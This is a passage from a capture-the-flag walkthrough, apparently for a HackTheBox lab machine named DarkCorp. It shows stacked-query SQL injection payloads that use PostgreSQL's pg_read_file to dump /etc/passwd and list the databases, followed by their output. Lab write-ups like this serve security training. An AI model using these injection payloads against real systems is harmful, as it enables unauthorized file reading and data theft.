 ```
ff02::2 ip6-allrouters

172.16.20.1 DC-01 DC-01.darkcorp.htb darkcorp.htb
172.16.20.3 drip.darkcorp.htb
```

Then continue to check `/etc/passwd` with the payload `''; SELECT pg_read_file('/etc/passwd', 0, 2000);`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bcase:x:1000:1000:Bryce Case Jr.,,,:/home/bcase:/bin/bash
postgres:x:102:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
postfix:x:103:111::/var/spool/postfix:/usr/sbin/nologin
dovecot:x:104:113:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:105:114:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
vmail:x:5000:5000::/home/vmail:/usr/bin/nologin
avahi:x:106:115:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
ntpsec:x:107:116::/nonexistent:/usr/sbin/nologin
sssd:x:108:117:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
_chrony:x:109:118:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
ebelford:x:1002:1002:Eugene Belford:/home/ebelford:/bin/bash
```
Continue to check the databases `''; SELECT datname FROM pg_database;`
```
|   |   |   |   |   |
|---|---|---|---|---|
|postgres|||||
|template1|||||
|template0|||||
|roundcube|||||
|dripmail|
```
